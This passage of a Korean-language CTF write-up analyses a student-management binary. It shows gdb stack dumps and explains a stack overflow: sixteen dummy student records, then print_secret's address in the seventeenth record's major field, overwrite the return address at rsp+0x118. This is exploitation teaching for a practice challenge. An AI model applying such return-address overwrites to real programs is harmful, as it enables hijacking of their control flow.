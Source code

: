 ```
0x7fffffffe340:	0x0000000000000000	0x00007fffffffe360
0x7fffffffe350:	0x000000006562b026	0x00007ffff7b99727
0x7fffffffe360:	0x00000000ffffffff	0x00007ffff7ffe718
0x7fffffffe370:	0x00007ffff7ffa280	0x00007ffff7ffe700
0x7fffffffe380:	0x0000000000000002	0x0000000000000000
0x7fffffffe390:	0x0000000000000000	0x0000000000000000
0x7fffffffe3a0:	0x0000000000000000	0x0000000000000000
0x7fffffffe3b0:	0x0000000000000000	0x0000000000000000
0x7fffffffe3c0:	0x0000000000000000	0x0000000000000000
0x7fffffffe3d0:	0x0000000000000000	0x0000000000000000
0x7fffffffe3e0:	0x0000000000000000	0x0000000000000000
0x7fffffffe3f0:	0x0000000000000000	0x0000000000000000
0x7fffffffe400:	0x0000000000000001	0x0000000000400a3d
0x7fffffffe410:	0x0000000000000000	0x0000000000000000
0x7fffffffe420:	0x00000000004009f0	0x00000000004006a0
0x7fffffffe430:	0x0000000000000000	0x00000000004009d8
```
학생정보하나를 입력해보고 rsp를 확인해본다. rsp+16에 학생이름, rsp+24에 학생전공이 입력되었다.
```
(gdb) c
Continuing.
<Menu>
A. Add a new student
U. Update the major of a student
E. Exit
A
Input student name (maxlen=8):
222
Input student major (maxlen=8):
333
Added a new student (ID = 1)

Breakpoint 1, 0x000000000040099f in manage_students ()
(gdb) x/36xg $rsp
0x7fffffffe320:	0x00007ffff7000041	0x0000000000000000
0x7fffffffe330:	0x00007f0000313131	0x00007f0000313131
0x7fffffffe340:	0x0000000000323232	0x00007f0000333333
0x7fffffffe350:	0x000000006562b026	0x00007ffff7b99727
0x7fffffffe360:	0x00000000ffffffff	0x00007ffff7ffe718
0x7fffffffe370:	0x00007ffff7ffa280	0x00007ffff7ffe700
0x7fffffffe380:	0x0000000000000002	0x0000000000000000
0x7fffffffe390:	0x0000000000000000	0x0000000000000000
0x7fffffffe3a0:	0x0000000000000000	0x0000000000000000
0x7fffffffe3b0:	0x0000000000000000	0x0000000000000000
0x7fffffffe3c0:	0x0000000000000000	0x0000000000000000
0x7fffffffe3d0:	0x0000000000000000	0x0000000000000000
0x7fffffffe3e0:	0x0000000000000000	0x0000000000000000
0x7fffffffe3f0:	0x0000000000000000	0x0000000000000000
0x7fffffffe400:	0x0000000000000001	0x0000000000400a3d
0x7fffffffe410:	0x0000000000000000	0x0000000000000000
0x7fffffffe420:	0x00000000004009f0	0x00000000004006a0
0x7fffffffe430:	0x0000000000000000	0x00000000004009d8
```
다음 학생정보를 입력해보면, 다음 stack공간 8개에 학생이름, 그 다음 stack공간 8개에 학생전공이 등록된다.   
즉, return address가 위치하는 rsp+0x118까지 더미정보를 입력하고, return address위치에 print_secret 주소를 입력하면 된다.
반복문으로 16개의 더미정보를 입력, 17번째 학생의 전공에 print_secret의 주소를 넣으면 정답이다.
